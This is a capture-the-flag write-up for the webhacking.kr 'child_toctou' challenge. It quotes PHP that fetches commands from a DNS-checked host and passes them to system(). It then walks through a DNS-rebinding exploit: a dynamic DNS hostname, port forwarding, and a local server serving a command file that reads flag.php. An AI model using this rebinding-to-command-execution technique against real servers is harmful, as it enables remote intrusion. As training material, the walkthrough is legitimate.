 ```yaml
---
layout: default
title: child_toctou
---
```


Here we can see this line:
```php
if(($_SERVER['HTTP_HOST'] !== "webhacking.kr") && (gethostbyname($_SERVER['HTTP_HOST']) !== "202.182.106.159")) 
    exit("Something wrong");
```

It checks whether the `host` is `"webhacking.kr` **or** `ip` is `202.182.106.159`.
So, we can trick him by supplying dynamic dns hostname, that first point to `202.182.106.159`, and then changes to our ip, and let us send our command here:
```php
curl_setopt($ch, CURLOPT_URL, "http://{$_SERVER['HTTP_HOST']}:10020/cmd/".rawurlencode($cmd).".txt");

...

curl_setopt($ch, CURLOPT_URL, "http://{$_SERVER['HTTP_HOST']}:10020/cmd/".rawurlencode($cmd).".txt");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 4);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
$response = curl_exec($ch);

...

system($response); 
```

So, first we create free account here [noip](https://www.noip.com/), it let us set free ddns hostname.

Then, I created this script that changes the `ip` from `webhacking.kr` ip to my ip. 

You need to modify the script of course, if you want it to work.
```python
{% include_relative scripts/child_toctou.py %}
```

Then, I created port forwarding on my router, because I'm behind a NAT
![port forwarding](./images/child_toctou_port_forwarding.png)

I also set `inbound rule`, telling the windows firewall to enable connections on port `10020`.
![inbound rule](./images/child_toctou_inbound_rule.png)

Last thing is setting the webserver on my local machine, which serves the file `./cmd/command.txt`.
This file contains:
```txt
echo "script is running!!";
cat flag.php;    
```

And here you can see the server:
![http server](./images/child_toctou_python_server.png)

And that's it, from now I only send the message via Burp, and hope I'll manage to execute `toctou`
![FINAL](./images/child_toctou_final.png)

**Flag:** ***`FLAG{sorry-i-forgor-what-server-name-meaning}`*** 
